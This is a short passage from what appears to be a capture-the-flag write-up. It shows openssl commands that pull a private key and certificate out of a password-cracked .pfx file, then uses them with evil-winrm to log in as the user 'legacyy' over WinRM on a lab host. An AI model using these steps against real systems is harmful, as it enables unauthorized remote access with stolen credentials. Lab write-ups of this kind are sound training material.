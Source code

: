 The extracted password of `legacyy_dev_auth.pfx` can be used to extract .key and .crt file 
```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key-enc
```

```bash
openssl rsa -in legacyy_dev_auth.key-enc -out legacyy_dev_auth.key
```

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
```

This .key and .crt file can be used to log in as `legacyy` on the system over port 5986 that allows for SSL windows remote management
```bash
evil-winrm -i 10.10.11.152 -S -k legacyy_dev_auth.key -c legacyy_dev_auth.crt
```
